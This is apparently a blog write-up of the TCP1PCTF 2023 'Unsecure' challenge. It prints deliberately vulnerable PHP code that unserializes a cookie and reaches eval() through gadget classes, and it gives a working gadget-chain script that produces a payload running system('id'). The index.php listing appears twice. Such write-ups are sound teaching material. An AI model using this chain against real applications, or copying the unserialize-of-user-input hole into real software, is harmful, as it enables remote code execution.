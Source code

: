 +++
title = "[TCP1PCTF 2023] Unsecure"
description = "TCP1PCTF was organized by Indonesian and it was opened to anyone. The challenge is solely focus on exploiting deserialization vulnerability and how to chain the gadget to get code execution."
date = 2023-10-17T22:31:44+08:00
draft = false
tags = [ "ctf", "deserialization" ]
+++

For this challenge, we were provided with source code (dockerize). You also can download it [here][dockerimage].

## Overview

> 🚧 **Description** : Do you know what "unserialize" means? In PHP, unserialize is something that can be very dangerous, you know? It can cause Remote Code Execution. And if it's combined with an autoloader like in Composer, it can use gadgets in the autoloaded folder to achieve Remote Code Execution.

Based on the source code, the challenge is pretty straight forward. On index.php file, it took user input from cookie and passed it to `unserialize()` function.

{{< highlight php "linenos=true,linenostart=0" >}}
// File: index.php
<?php
require("vendor/autoload.php");

if (isset($_COOKIE['cookie'])) {
    $cookie = base64_decode($_COOKIE['cookie']);
    unserialize($cookie);
}

echo "Welcome to my web app!";

{{</ highlight >}}

{{< highlight php "linenos=true,linenostart=0" >}}
// File: index.php
<?php
require("vendor/autoload.php");

if (isset($_COOKIE['cookie'])) {
    $cookie = base64_decode($_COOKIE['cookie']);
    unserialize($cookie);
}

echo "Welcome to my web app!";

{{</ highlight >}}

Since the application blindly passed user input to `unserilize()` function, this will lead to deserialize vulnerability. Once we identify the source, now lets find the sink for gadget chain. Based on file provided, there were three additional files which are `GadgetOne/Adders.php`, `GadgetTwo/Echoers.php` and `GadgetThree/Vuln.php`. Based on the file name, ***maybe*** `GadgetThree/Vuln.php` is the sink.


{{< highlight php "linenos=true,linenostart=0" >}}
// GadgetOne/Adders.php
<?php

namespace GadgetOne {
    class Adders
    {
        private $x;
        function __construct($x)
        {
            $this->x = $x;
        }
        function get_x()
        {
            return $this->x;
        }
    }
}

{{</ highlight >}}

{{< highlight php "linenos=true,linenostart=0" >}}
// GadgetTwo/Echoers.php
<?php

namespace GadgetTwo {
    class Echoers
    {
        protected $klass;
        function __destruct()
        {
            echo $this->klass->get_x();
        }
    }
}

{{</ highlight >}}

{{< highlight php "linenos=true,linenostart=0" >}}
// GadgetThree/Vuln.php
<?php

namespace GadgetThree {
    class Vuln
    {
        public $waf1;
        protected $waf2;
        private $waf3;
        public $cmd;
        function __toString()
        {
            if (!($this->waf1 === 1)) {
                die("not x");
            }
            if (!($this->waf2 === "\xde\xad\xbe\xef")) {
                die("not y");
            }
            if (!($this->waf3) === false) {
                die("not z");
            }
            eval($this->cmd);
        }
    }
}
{{</ highlight >}}

On `GadgetThree/Vuln.php`, it has a magic method so called `__toString()` and after several if statement, it call `eval()` function. Unlike `__wakeup()` and `__construct()`, which always get executed if the object is created, the `__toString()` method is invoked only when the object is treated as a string. For example, it can decide what to display if the object is passed into an `echo()` or `print()` function. On `GadgetTwo/Echoers`, the class will echo *class* when it destructed. The class must have `get_x()` function from the object, and `get_x()` is exist on `GadgetOne/Adders.php`. Before that, we need to set property of `$klass` is accessable because it was private variable. This can be done using `ReflectionClass`.

Once get the grasp the idea, here is the flow:
- Create `GadgetThree\Vuln` object
- Create `GadgetOne\Adders` object and pass `GadgetThree\Vuln` object as a parameter
- Create `GadgetTwo\Echoers` and set `$klass` property to be acessible
- Set `$klass` to `GadgetOne\Adders`.

## Solution

{{< highlight php "linenos=true" >}}
<?php

namespace GadgetOne {
    class Adders {
        private $x;
        function __construct($x) {
            $this->x = $x;
        }
    }
}

namespace GadgetTwo {
    class Echoers {
        protected $klass;
    }
}

namespace GadgetThree {
    class Vuln {
        public $waf1 = 1;
        protected $waf2 = "\xde\xad\xbe\xef";
        private $waf3 = false;
        public $cmd = "system('id');";
    }
}

namespace {
    $GadgetThree = new GadgetThree\Vuln();
    $GadgetOne = new GadgetOne\Adders($GadgetThree);
    $GadgetTwo = new GadgetTwo\Echoers();
    $reflectionClass = new ReflectionClass($GadgetTwo);
    $reflectionProperty = $reflectionClass->getProperty("klass");
    $reflectionProperty->setAccessible(true);
    $reflectionProperty->setValue($GadgetTwo, $GadgetOne);

    $serialized = base64_encode(serialize($GadgetTwo));
    echo $serialized."\n";
}
{{</ highlight >}}

After generating the encoded payload, create cookie named `cookie` using devtools(or any plugin) and set it to our encoded value. You will see the command will be executed after the page refreshed.

{{< figure src="/img/posts/ctf_2023_tcp1pctf_unsecure/1.png" caption="Figure 1: Code execution via deserialize" width="100%" align="center" >}}

[dockerimage]:/img/posts/ctf_2023_tcp1pctf_unsecure/unSecure.zip
